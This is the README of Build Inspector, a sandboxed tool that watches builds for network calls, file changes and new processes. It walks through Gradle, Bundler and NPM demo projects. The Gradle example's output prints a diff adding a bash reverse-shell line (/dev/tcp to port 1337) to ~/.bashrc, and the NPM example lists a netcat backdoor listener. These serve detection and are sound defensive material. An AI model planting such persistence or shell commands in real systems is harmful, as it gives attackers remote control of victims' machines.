 # Build Inspector

[Build Inspector](https://github.com/srcclr/build-inspector) is a
tool that gives insight into what's happening when you're building a
project. It is language and build system agnostic and it is capable of
inspecting network activities, file system changes and running
processes. All these happens in a sandboxed environment, without
compromising the developer's machine.

## Requirements

- [Ruby](https://www.ruby-lang.org/en/downloads/) (2.2.3 recommended)
- [Vagrant](https://www.vagrantup.com/)

Once you have both ruby and vagrant installed, go ahead and install
the sahara plugin and bundler. Lastly, clone this repository and pull
in the project's dependencies.

```
vagrant plugin install sahara
git clone https://github.com/srcclr/build-inspector
gem install bundler
bundle install
```

## Running

First, make sure that you have the
[requirements](https://github.com/srcclr/build-inspector#Requirements)
and you are inside the repository's directory.

```
cd build_inspector
```

Since this tool does not manage vagrant for you, yet, you'll have to
do it yourself. This step will take a while the first time, but won't
be necessary again. Eventually, this step will be eliminated. Start
vagrant and build the image:

``` vagrant up ```

Once vagrant is started, save a snapshot with:
```
vagrant sandbox on
```

### Usage

```
Usage inspector.rb [options] <git repo URL>
    -h, --help                       Display this screen
    -n, --no-rollback                Don't rollback the virtual machine's state after running
```

### Gradle Example

```
cp configs/gradle_inspect.yml .inspect.yml
ruby inspector.rb https://github.com/jsyeo/TotallyLegitApp.git
```

The above project has a task called `backdoor` that adds a reverse
connect shell to `~/.bashrc`.

After running, you should see this at the bottom of the output:

```
changed: ~/.bashrc
--- /backup/root/.bashrc	2014-02-19 21:43:56.000000000 -0500
+++ /root/.bashrc	2015-11-08 13:07:40.579626388 -0500
@@ -97,3 +97,5 @@
 #if [ -f /etc/bash_completion ] && ! shopt -oq posix; then
 #    . /etc/bash_completion
 #fi
+
+bash -c "bash -i>&/dev/tcp/localhost/1337 0>&1 &disown"&>/dev/null
```

In addition, you'll have a file that looks like
`201523110032412-TotallyLegitApp-evidence.zip` which has all the
network activity, file system changes, and any new processes.

### Bundler Example

```
cp configs/bundler_inspect.yml .inspect.yml
ruby inspector.rb https://github.com/jsyeo/harmless-project.git
```

This bundler project has a gem that pings google during its
installation.

Run it with the Build Inspector and you should see a list of domains
that the machine tried to connect to.

```
The following hostnames were reached during the build process:
  www.google.com (74.125.200.99)                                     543B
```

### NPM Example

```
cp configs/npm_inspect.yml .inspect.yml
ruby inspector.rb https://github.com/jsyeo/ann-pee-am
```

Inspecting this npm project should yield the following output:

```
The following processes were running during the build:
  - /bin/sh -i
  - nc -l 0.0.0.0 8080
```

That's because the npm project depends on a module that opens a
persistent backdoor using netcat.

### Configuration

The tool monitors all network and file system activities.  To ignore
hosts or exclude directories from the monitoring, create and add an
`.inspect.yml` in the repository.  The `.inspect.yml' file is simply
a YAML file that looks like this:

```
---

script: bundle install --jobs 2

whitelist:
  - 10.0.2.2
  - 8.8.8.8
  - bundler.rubygems.org
  - rubygems.org
  - rubygems.global.ssl.fastly.net

directories:
  excluded:
    - /home/vagrant/.gem
  included:
    - /etc
```

There are examples for different build systems in the `configs`
directory.  You may copy the approriate configs for your build system
to the root of this project or you may write one from scratch.

## Development

When you want to experiment, just do `vagrant sandbox on`. Make all
the changes you want to the image. If you'd like to keep them do
`vagrant sandbox commit` and if you don't do `vagrant sandbox
rollback`.
